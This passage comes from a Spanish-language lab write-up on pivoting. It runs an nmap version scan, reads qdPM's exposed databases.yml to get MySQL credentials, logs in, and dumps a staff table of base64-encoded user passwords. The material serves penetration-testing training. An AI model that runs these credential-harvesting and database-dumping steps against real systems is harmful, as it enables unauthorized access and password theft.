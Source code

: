 c. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -sCV -p<Ports>  <IP> -oN versiones`**

  ![](/assets/images/Laboratorios/pivoting/03-versions-ica.png)

d. Al buscar con searchsploit alguna vulnerabilidad para el servicio qdPM vemos que podemos leer la contraseña de este servicio si visitamos la ruta **http://<website>/core/config/databases.yml**

* databases.yml

    ```yml
    username: qdpmadmin
        password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
    ```

* Con estas credenciales nos autenticamos en el servicio mysql

    ```bash
    root@kali>  mysql -h 192.168.100.27 -u qdpmadmin -p'UcVQCMQk2STVeS6J'
    MySQL [(none)]>
    ```

* Las credenciales las podemos ver usando la base de datos **staff** y con la siguiente sentencia SQL

    ```sql
    MySQL [(none)]> use staff;
    MySQL [staff]> select u.name, l.password from login as l JOIN user as u ON u.id=l.user_id;

    +--------+--------------------------+
    | name   | password                 |
    +--------+--------------------------+
    | Smith  | WDdNUWtQM1cyOWZld0hkQw== |
    | Lucas  | c3VSSkFkR3dMcDhkeTNyRg== |
    | Travis | REpjZVZ5OThXMjhZN3dMZw== |
    | Dexter | N1p3VjRxdGc0MmNtVVhHWA== |
    | Meyer  | Y3FObkJXQ0J5UzJEdUpTeQ== |
    +--------+--------------------------+
    ```
